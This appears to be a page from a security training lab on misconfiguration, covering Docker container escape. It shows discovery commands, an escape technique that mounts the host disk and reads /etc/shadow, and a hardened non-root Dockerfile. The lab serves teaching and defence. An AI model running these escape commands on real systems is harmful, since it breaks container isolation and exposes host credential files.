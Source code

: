## A05:2021 – Security Misconfiguration

### Lab Scenario: Docker Container Escape
**Vulnerability**: Privileged containers and exposed services

#### Discovery
```bash
# Check if running in Docker
cat /.dockerenv
ls -la /proc/1/cgroup

# Check for privileged mode
capsh --print
```

#### Container Escape Technique
```bash
# If running as privileged, can access host filesystem
mkdir /tmp/host_mount
mount /dev/sda1 /tmp/host_mount

# Access host files
ls /tmp/host_mount/root/
cat /tmp/host_mount/etc/shadow
```

#### Secure Configuration
```dockerfile
# Dockerfile security best practices
FROM node:18-alpine

# Create non-root user
RUN addgroup -g 1001 -S nodejs
RUN adduser -S nextjs -u 1001

# Set working directory
WORKDIR /app

# Copy and install dependencies
COPY package.json package-lock.json ./
RUN npm ci --only=production

# Copy application code
COPY --chown=nextjs:nodejs . .

# Switch to non-root user
USER nextjs

# Expose port
EXPOSE 3000

# Start application
CMD ["node", "server.js"]
```
